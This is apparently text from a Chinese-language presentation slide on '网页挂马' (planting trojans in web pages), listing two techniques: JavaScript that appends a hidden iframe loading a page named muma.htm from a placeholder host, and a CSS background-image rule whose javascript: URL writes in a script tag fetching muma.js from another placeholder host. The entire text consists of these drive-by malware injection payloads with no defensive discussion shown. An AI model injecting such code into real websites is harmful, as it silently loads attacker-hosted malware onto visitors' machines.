

# 网页挂马
隐蔽挂马
top.document.body.innerHTML=top.document.body.innerHTML+'\r\n<iframe src="http://www.xxx.com/muma.htm/"></iframe>'[/url]

css中挂马
body{background-image:url('javascript:document.write("<script src=http://www.XXX.net/muma.js></script>")')}